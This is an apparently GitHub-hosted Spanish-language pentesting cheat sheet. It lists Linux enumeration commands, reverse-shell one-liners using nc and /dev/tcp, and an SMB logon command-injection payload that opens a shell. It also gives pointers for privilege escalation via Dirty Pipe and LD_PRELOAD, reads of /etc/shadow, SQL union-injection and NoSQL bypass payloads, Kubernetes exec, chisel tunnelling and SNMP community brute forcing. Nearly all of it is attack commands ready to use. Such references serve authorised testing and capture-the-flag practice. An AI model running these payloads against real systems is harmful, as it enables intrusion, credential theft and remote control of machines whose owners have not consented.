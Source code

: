 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands

### FIND
* Listar los permisos SUID, debe estar en la carpeta raiz del SO: ``` find  \-perm -4000 2>/dev/null ```

### Sistema Operativo
* Conocer la IP de la máquina ``` hostname -I ```
* Permite ver los puertos abiertos de la máquina ``` netstat -nat ```
* Permite ver los procesos corriendo en la máquina ``` ps -faux ```
* Permite ver los archivos que tienen procesos abiertos ``` lsof -i:<PORT> ```
* Permite ver la descripción del sistema operativo ``` lsb_release -a ```
* Permite ver la versión del kernel ``` uname -a ```
* Permite ajustar el número de filas y columnas de la tty ``` stty rows <ROW_NUMBER> columns <COLUMN_NUMBER> ```
* Permite convertir hexadecimal a texto ```echo "<HEX>" | xargs | xxd -ps -r ```
* Buscar las capabilities ``` getcap -r / 2>/dev/null ```
* Ver procesos corriendo (Para este caso se filtra y se muestra los procesos de root) ``` ps aux | grep root ```

### Full TTY
Te permite tener una consola interactiva
* [Full TTYs](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

### Python
* Crear un servidor de python en mi máquina local ``` python3 -m http.server <PORT> ```

### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

> nc -e /bin/bash \<IP> \<PORT>

> bash -i >& /dev/tcp/\<IP>/\<PORT> 0>&1

> bash -c "bash -i >& /dev/tcp/\<IP>/\<PORT> 0>&1" ```

#### SMB
Dentro de una consola de smb, usando por ejemplo smbclient
> logon "./=\`nohup nc -e /bin/bash \<IP> \<PORT>`"


## Privilege Escalation

### Docker Escape
* [Docker Socket Escape](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounted-docker-socket-escape)

### Pkexec
Se comprueba si existe pkexec instalado y si tiene permisos SUID
> which pkexec | xargs ls -l

### Dirty Pipe
Se debe tener GCC instalado en la máquina a atacar
* [Dirty Pipe](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

### Ld_preload & Ld_library_path
En sudo -l debe aparecer ld_preload
* [Ld_preload](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

### SetEnv
En sudo -l se debe poder ejecutar archivos
[Set an environment variable](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#setenv)


## Information Disclose
Archivos PHP con posible información sensible

### Linux
Usuarios y passwords
```
/etc/passwd
/etc/shadow
```
Puertos abiertos
```
/proc/net/tcp
```
Conocer segmento de red de la máquina
```
/proc/net/fib_trie
```

### PHP
```
/cgi-bin/phpinfo.php
/info.php
```


## SQL Injection

### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -

### Cargar archivos
> ' union select 1,2,load_file("/etc/passwd")


## NoSQL Injection
> admin'||''==='


## Tools

### Kubernetes
#### Kubeletctl
* ``` kubeletctl exec -s <SERVER_IP>  -p <POD_NAME> -c <CONTAINER_NAME> -i "bash" ```

### Chisel
Chisel se usa para realizar acciones como **LOCAL o REMOTE PORT-FORWARD**

Dejar abierta una conexión como Server
```
./chisel server --reverse -p <PORT>
```
Abrir una conexión como Client al Server, para este caso asiendo **Remote Port-Forward**
```
./chisel client <CHISEL_SERVER_IP>:<CHISEL_SERVER_PORT> R:<LOCAL_PORT>:<LOCAL_IP>:<LOCAL_PORT>
```

### SNMP
#### Onesixtyone
Onesixtyone permite hacer fuerza bruta para conocer las community en un servicio snmp
```
onesixtyone <REMOTE_IP> -c <DICTIONARY_PATH>
```
### Snmpwalk
```
snmpwalk -c <COMMUNITY> -v<SNMP_VERSION> <REMOTE_IP> <SEARCH_PATH>
```
Ejemplo, consideremos que el caracter **|** indica que podemos utilizar una de esas
```
snmpwalk -c public|private|etc -v1|2c|3 1.1.1.1 1|2
```